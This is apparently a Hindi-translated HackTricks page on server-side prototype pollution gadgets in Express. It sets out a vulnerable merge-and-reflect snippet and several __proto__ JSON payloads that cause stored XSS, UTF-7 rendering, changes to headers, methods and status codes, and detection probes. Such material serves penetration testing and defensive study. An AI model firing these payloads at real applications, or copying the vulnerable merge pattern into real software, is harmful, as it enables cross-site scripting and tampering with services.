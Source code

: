 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## XSS प्रतिक्रियाएँ प्रदान करें

**अधिक जानकारी के लिए** [**मूल शोध पर एक नज़र डालें**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON सामग्री प्रकार को HTML में बदलें

एक Express ऐप में जो **JSON सामग्री प्रकार प्रतिक्रिया** का उपयोग कर रहा है और एक JSON को दर्शा रहा है:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
इन मामलों में XSS सामान्यतः JSON सामग्री प्रकार के साथ संभव नहीं है। हालाँकि, प्रोटोटाइप प्रदूषण के साथ हम **Express को HTML प्रतिक्रिया देने के लिए भ्रमित कर सकते हैं।** यह भेद्यता इस पर निर्भर करती है कि एप्लिकेशन **`res.send(obj)`** का उपयोग कर रहा है और application/json सामग्री प्रकार के साथ बॉडी पार्सर का उपयोग कर रहा है।
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
**`body`** और **`_body`** प्रॉपर्टीज़ को **polluting** करके, **Express को HTML कंटेंट टाइप सर्व करने** और `_body` प्रॉपर्टी को दर्शाने के लिए मजबूर किया जा सकता है, जिससे स्टोर्ड XSS होता है।

### Render UTF7

यह संभव है कि express **UTF-7 कंटेंट को** रेंडर करे:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## सुरक्षित स्कैनिंग तकनीकें

### JSON स्पेस

निम्नलिखित PP JSON के अंदर विशेषताओं को एक अतिरिक्त स्पेस देने के लिए बनाएगा जो कार्यक्षमता को बाधित नहीं करेगा:
```json
{ "__proto__": { "json spaces": " " } }
```
फिर एक परावर्तित JSON इस तरह दिखेगा:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

निम्नलिखित PP गैजेट सर्वर को HTTP हेडर भेजने के लिए मजबूर करेगा: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
यह **CORS मॉड्यूल को स्थापित करने की आवश्यकता है**

### **OPTIONS विधि**

निम्नलिखित पेलोड के साथ, यह **OPTIONS प्रतिक्रिया से एक विधि को छिपाना संभव है**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **स्थिति**

आप निम्नलिखित PP पेलोड का उपयोग करके **वापस किए गए स्थिति कोड** को बदल सकते हैं:
```json
{ "__proto__": { "status": 510 } }
```
### त्रुटि

जब आप एक प्राइमिटिव जैसे कि स्ट्रिंग के साथ एक प्रोटोटाइप को असाइन करते हैं, तो यह **कोई ऑपरेशन नहीं करता क्योंकि प्रोटोटाइप एक ऑब्जेक्ट होना चाहिए**। यदि आप `Object.prototype` को स्वयं एक प्रोटोटाइप ऑब्जेक्ट असाइन करने का प्रयास करते हैं, तो यह **एक अपवाद फेंकेगा**। हम इन दो व्यवहारों का उपयोग **यह पता लगाने के लिए कर सकते हैं कि क्या प्रोटोटाइप प्रदूषण सफल रहा**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Reflected Value

जब एक एप्लिकेशन अपनी प्रतिक्रिया में एक ऑब्जेक्ट शामिल करता है, तो `__proto__` के साथ एक **असामान्य नाम वाला एट्रिब्यूट** बनाना जानकारीपूर्ण हो सकता है। विशेष रूप से, यदि **केवल असामान्य एट्रिब्यूट प्रतिक्रिया में लौटाया जाता है**, तो यह एप्लिकेशन की कमजोरियों का संकेत दे सकता है:
```json
{ "unusualName": "value", "__proto__": "test" }
```
इसके अलावा, उन परिदृश्यों में जहां Lodash जैसी लाइब्रेरी का उपयोग किया जाता है, प्रोटोटाइप प्रदूषण (PP) के माध्यम से और सीधे ऑब्जेक्ट के अंदर एक प्रॉपर्टी सेट करना एक और निदान दृष्टिकोण प्रदान करता है। यदि ऐसी प्रॉपर्टी प्रतिक्रिया से छोड़ी जाती है, तो यह सुझाव देता है कि Lodash लक्ष्य ऑब्जेक्ट में प्रॉपर्टी के अस्तित्व की पुष्टि कर रहा है इससे पहले कि वह मर्ज करे:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express में एक विकल्प है जो आपको **क्वेरी स्ट्रिंग पैरामीटर से ऑब्जेक्ट बनाने** की अनुमति देता है।\
आप निश्चित रूप से इसका उपयोग एक बग **चेन** में **प्रोटोटाइप प्रदूषण भेद्यता** का लाभ उठाने के लिए कर सकते हैं।
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` Node में एक ऑब्जेक्ट बनाता है।**

## संदर्भ

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
